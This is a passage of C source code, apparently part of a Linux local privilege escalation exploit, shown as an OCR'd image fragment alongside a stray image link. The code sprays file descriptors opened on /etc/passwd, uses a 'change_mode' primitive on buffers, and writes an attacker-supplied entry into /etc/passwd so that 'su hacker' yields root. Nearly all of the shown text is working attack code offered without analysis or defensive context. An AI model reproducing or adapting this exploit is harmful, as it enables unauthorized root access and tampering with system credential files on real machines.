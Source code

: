 ```
    }
    
    logi(&#34;sparying...&#34;);
    for (size_t i = 0; i < nr_files; i++)
    {
        fds[i] = open(&#34;/etc/passwd&#34;, O_RDONLY);
        check_ret(fds[i],&#34;failed to open file&#34;);
    }
    logi(&#34;try to leak...&#34;);
    for (size_t i = 0; i < nr_bufs; i++)
    {
        ret = change_mode(bufs[i],PAGE_SZIE*nr_pages);
        if(ret<0)continue;
        logi(&#34;change_mode success!!!&#34;);

        for (size_t i = 0; i < nr_files; i++)
            {
                if(write(fds[i],hacker_buf,hacker_len)>0){
                    logw(&#34; hacker /etc/passwd successful&#34;);
                    break;
                }                  
            }
        // debug(&#34;debug&#34;);
        stat(&#34;/etc/passwd&#34;,&status);
        logu(&#34;passwd_size -> %d&#34;,status.st_size);
        if(status.st_size==passwd_size)continue;
        logd(&#34;success!!! su hacker to get root&#34;);
        exit(0);
    }
            


    RED;puts(&#34;[*]failed&#34;);CLOSE;
    return 0;
}

void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf(&#34;[*] bind_cpu(%d)&#34;,core);CLOSE;
}
```

  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8G1VoewWmfN1y7Ka2ibhgAwlQtqoEZ1gpkcXIeCWlWQfiafa13ZtSIvnh2QgggeibJAFCSUMNRHRBcpg/640?wx_fmt=png&from=appmsg "")  
  